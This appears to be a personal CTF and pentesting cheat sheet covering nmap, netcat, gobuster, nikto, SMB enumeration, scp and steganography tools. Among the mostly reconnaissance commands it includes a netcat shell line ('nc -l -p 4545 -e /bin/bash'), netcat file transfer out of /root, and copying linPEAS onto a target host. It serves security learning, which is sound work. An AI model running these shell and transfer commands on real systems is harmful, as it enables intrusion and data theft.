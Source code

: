 hackerone -> bug bouty
hacker101 -> ctf
hellbound hackers -> for basic web hacking
__NMAP__
-p -> specify port to scan
-sn -> ping scan
-sU -> UDP scan
-sC or --script -> use default scripts
-O -> OS detection
-sV -> version of services running on target
-A -> "aggressive mode"(OS detecton,version,traceroute)

__NETCAT__
nc -l 4545 -> creating a listner
nc (ip of listner) 4545 -> connect to the listner

nc ip 80
HEAD / HTTP/1.0

nc -l -p 4545 -e /bin/bash -> creating a reverse shell
file sharing
nc -l -p 4545 > out.txt -> creating listner expecting "out.txt"
cat '/root/out.txt' | nc ip 4545
nc -w 3 ip 4545 < out.txt        both can use to send file

__gobuster__
find directories- gobuster dir -u 10.10.40.230 -w usr/share/wordlists/dirb/common.txt 

find extensions - gobuster dir -u 10.10.40.230 -w /usr/share/wordlists/dirb/common.txt  -x .php

__NIKTO__
scan for vulnerabilities
nikto -h example.com 
nikto -h example.com -ssl -> to scan about ssl certs

**SMB enumeration with enum4linux**
enum4linux -a 10.10.10.10 -> for all info
enum4linux -U 10.10.10.10. | tee text.txt 
(tee - to write output in file)
for other SMB enumeration
https://www.hackingarticles.in/a-little-guide-to-smb-enumeration/

smbclient -L 10.10.107.105
smbclient //10.10.107.105/guest

**SCP**
securely copy files and directories between two locations.
ex- 
*scp /opt/linPEAS/linepeas.sh janith@10.10.100.180:/dev/shm*
/dev/shm - temporary file storage files system that uses RAM for the storage

__analysing image__
strings image.jpg
exiftool image.jpg
eog image.jpg
binwalk -e image.png- > -e extract the attacked zip or executable

__steghide__
steghide --embed -ef textfile -cf image -p password
